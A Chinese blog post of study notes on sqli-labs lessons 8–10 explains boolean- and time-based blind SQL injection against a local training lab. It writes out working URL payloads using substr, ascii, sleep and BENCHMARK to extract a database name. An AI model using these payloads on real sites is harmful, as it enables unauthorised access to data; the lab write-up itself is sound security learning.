 ```yaml
---
title: sqli labs lesson 8~10 学习
date: 2016-08-26 14:24:46
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---
```

很多时候，Web服务器关闭了错误回显，攻击者为了应对这种情况，研究出了“盲注”（Blind Injection）的技巧。
<!-- more -->
# 1 盲注
__盲注__ 就是在服务器没有错误回显的时完成的注入攻击。服务器没有错误回显，对于攻击者来说缺少了非常重要的“调试信息”，所以攻击者必要找到一个方法来验证注入的SQL语句是否得到执行。
最常见的盲注验证方法是，构造简单的条件语句，根据返回页面是否发生变化，来判断SQL语句是否执行。
比如，一个网站的 URL：
`http://localhost/sqli-labs-master/Less-8/?id=1'%23`
执行的SQL语句
`select * from tables where id = '1'%23' limit 0,1`
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f775iarqpdj30c803cwek.jpg)

## 1.1 测试 SQL 漏洞
如果构造如下条件语句：
`http://localhost/sqli-labs-master/Less-8/?id=1' and 1=0%23`
实际执行的SQL语句：
`select * from tables where id = '1' and 1=0%23' limit 0,1`
因为 "and 1=0" 为false，所以这条SQL语句的 "and" 条件永远无法成立。对Web应用来说，也不会将结果返回给用户，攻击者看到的页面结果将为空或者是一个出错的页面。
![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f775iypxzdj30c803ca9z.jpg)

## 1.2 确认 SQL 漏洞
为了进一步确认注入是否存在，必须再次验证这个过程。因为一些处理逻辑或安全功能，在攻击者构造异常请求时，也可能会导致页面返回不正常。攻击者继续构造如下请求：
`http://localhost/sqli-labs-master/Less-8/?id=1' and 1=1%23`
当攻击者构造条件 "and 1=1" 时，如果页面正常返回了，则说明 SQL 语句的 "and" 成功执行，那么久可以判断 "id" 参数存在 SQL 注入漏洞。
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f775jqhx1kj30c803c3ym.jpg)

<font color="red">盲注工作原理：虽然服务器关闭了错误回显，但攻击者通过简单的条件判断，在对比页面返回结果的差异，就可以判断出 SQL 注入漏洞是否存在</font>

# 2 lesson 8 盲注-基于bool值
## 2.1 基础知识
### 2.1.1 substr
SQL 中的 substring 函数是用来抓出一个栏位资料中的其中一部分。这个函数的名称在不同的资料库中不完全一样。
- MySQL: SUBSTR(), SUBSTRING()
- Oracle: SUBSTR()
- SQL Server: SUBSTRING()

最常用到的方式如下 (在这里我们用 SUBSTR() 为例)：

原型 | 说明
-- | --
SUBSTR(str, pos) | 从 str 中，选出所有从第 pos 位置开始的字元。请注意，这个语法不适用于 SQL Server 上。
SUBSTR(str, pos, len) | 从 str 中的第 pos 位置开始，选出接下去的 len 个字元。

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f775xbbk66j30c803jaao.jpg)

`SELECT substr(email_id,3) FROM `emails` WHERE id=1`
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f775zhclgtj30c8067dg1.jpg)

`SELECT substr(email_id,0,3) FROM `emails` WHERE id=1`
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f7760qfdspj30c806oaaa.jpg)

### 2.1.1 assci
ascii()函数将字符转换成其对应的ascii码，而char()函数将数字转换成对应的acscii码字符。

## 2.2 基于bool型盲注
本篇第一小节可知，lesson 8 是单引号闭合的。

sql语句 | 说明
-- | --
select database() | 当前数据库
select substr(database(),1,1) | 当前数据库名首字母
select ascii(substr(database(),1,1)) | 当前数据库名首字母 ascii 码值

参数 | 说明
-- | --
?id=1'%23 | You are in.... 页面显示正确
?id=1' and 1=0%23 | 页面显示出错
?id=1' and 1=1%23 | You are in.... 页面显示正确
?id=1' and (select ascii(substr(database(),1,1)))=97%23 | You are in.... 正确，说明首字母不为 a
?id=1' and (select ascii(substr(database(),1,1)))=115%23 | You are in.... 正确，说明首字母为 s

依照相同的方法，猜解除所有数据库信息。

# 3 lesson 9 盲注-基于时间-单引号
lesson 9 无论输入的参数是否合法，页面都没有任何差异。
在盲注（blind SQL injection）时，如果不同SQL injection 指令的结果，无法由 HTTP Response 本身得知，则可用时间差的方式判断。
<font color="red">设计一个很耗时的 SQL 指令，如果 SQL injection 成功，那么这个SQL injection 指令的执行结果，会影响到 Web server 响应 HTTP response 的速度，由此判断 SQL injection 指令执行的结果。</font>
## 3.1 sleep() 和 BENCHMARK()
- sleep(N)函数，强制让语句停留N秒钟
- BENCHMARK(count,expr)函数，重复执行表达式expr count次，使得结果返回的时间比平时要长

参数 | 说明
-- | --
?id=1 and if(1,sleep(60),null)%23 | 页面无延迟
?id=1' and if(1,sleep(60),null)%23 | 页面加载一段延迟后，正常显示
?id=1" and if(1,sleep(60),null)%23 | 页面无延迟

说明参数时用单引号 ' 闭合的。
也可以使用 BENCHMARK(50000000,ENCODE('hello','goodbye')) 替换sleep(60) 

## 3.2 基于时间型盲注
参数 | 说明
-- | --
select ascii(substr(database(),1,1)) | 数据库名首字母ascii码值
?id=1' and if((select ascii(substr(database(),1,1)))=97,sleep(60),null)%23 | 页面无延迟，说明首字母不为 a
?id=1' and if((select ascii(substr(database(),1,1)))=115,sleep(60),null)%23 | 页面延迟一段时间后加载，说明首字母为 s

依照相同的方法，猜解除所有数据库信息。

# 4 lesson 10 盲注-基于时间-双引号
参数用双引号闭合，其他步骤同上。

# 5 参考文献
[sqli-labs series part 8 (Blind injections - Boolean based)](https://www.youtube.com/watch?v=u7Z7AIR6cMI&index=16&list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)
[sqli-labs series part 9 (Blind injections - Time based)](https://www.youtube.com/watch?v=gzU1YBu_838&index=15&list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)

